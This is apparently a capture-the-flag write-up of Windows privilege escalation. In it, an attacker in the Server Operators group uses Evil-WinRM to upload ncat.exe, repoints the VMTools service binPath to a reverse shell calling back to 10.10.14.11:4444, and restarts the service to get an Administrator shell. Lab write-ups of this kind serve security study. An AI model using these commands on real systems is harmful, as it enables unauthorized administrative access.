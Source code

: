 ### METHOD 1 - REPLACING SERVICE BINARY PATH
ENUMERATING INSTALLED SERVICES

we found a list of installed services and their path along with true/false flags for privileges.
```
*Evil-WinRM* PS C:\Users\svc-printer> services

Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

Since, svc-printer is a member of server operator group. we can change the binary path of service, replace it with a netcat binary and restart the service to get the reverse shell.
First we will upload ncat.exe
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload ncat.exe
Info: Upload successful!
```
We will now repalce the binary path of `VMTools service` with our `ncat.exe`
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\ncat.exe -e cmd.exe 10.10.14.11 4444"
[SC] ChangeServiceConfig SUCCESS
```
once we open netcat listener on our machine and restart the service of VMTools we get shell as a `Administrator`.
```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start VMTools
```
